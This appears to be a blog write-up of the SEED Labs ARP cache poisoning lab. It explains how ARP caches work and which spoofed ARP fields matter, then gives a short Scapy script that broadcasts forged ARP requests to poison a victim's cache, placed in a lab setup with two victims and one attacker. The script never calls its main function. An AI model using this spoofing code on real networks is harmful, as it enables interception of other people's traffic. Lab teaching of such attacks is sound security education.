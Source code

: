 ```yaml
---
layout: post
title: ARP Cache Attack
categories: [scapy, sniffing]
---
```


When a computer wants to send data within a network (not across i.e. via a router), it usually makes use of the NIC MAC address to send such data.
Every computer keeps a record of IP-to-MAC-address mapping. This is called the `ARP cache`. It is through the help of the ARP cache that the computer knows which NIC to send data meant for a particular IP address. A computer populates (stores an entry) its ARP cache when it receives an arp request.

<details><summary><b>SeedLabs: ARP Cache Poisoning Attack Lab</b></summary></details>


#### Tools used in this lab
- _Scapy: scapy is a very powerful tool written in python for packet manipulation_
when spoofing requests with scapy, any header field you do not set would be set by scapy.

```
context
host A: this is victim 1 (10.9.0.5)
host B: this is victim 2 (10.9.0.6)
host C: this is our attacking machine  (10.9.0.105)
all three hosts are on the same LAN
```

<br>

### ARP cache poisoning using ARP requests
When sending an ARP request, the following are the important fields to spoof in the ARP header:
- `psrc`: this specifies where the `ARP request` is originating from
- `pdst`: this specifies where the `ARP request` is going to
- `op`: this specifies whether it is an `ARP request` or an `ARP reply`
- `hwsrc`: this specifies the MAC Address of the host where the `ARP request` is originating from

So to perform a cache poisoning attack, you need to set `psrc` to the host-ip whose traffic you want to intercept and set `hwsrc` to your machine MAC address.
What this means is that in the arp address table of the host you're attacking, `psrc` would be bound to `hwsrc`

The below code achieves this

```python
#!/usr/bin/env python3
import sys
from scapy.all import *

def main():
    if len(sys.argv) != 3:
        usage()
        sys.exit(2)
    psrc_ = sys.argv[1]
    pdst_ = sys.argv[2]
    E = Ether(dst = 'ff:ff:ff:ff:ff:ff')
    A = ARP(psrc = psrc_, pdst = pdst_, op = 1)
    sendp(E/A, verbose=0)
    print(f'sent ARP request to {pdst_}')
    
def usage():
    print("Usage: ./arp-request.py <src-ip> <dst-ip>\
    \n\tsrc-ip: IP address of the host you want to map to your MAC address\
    \n\tdst-ip: Ip address of the host whose ARP cache you want to poison\n")
    
    
```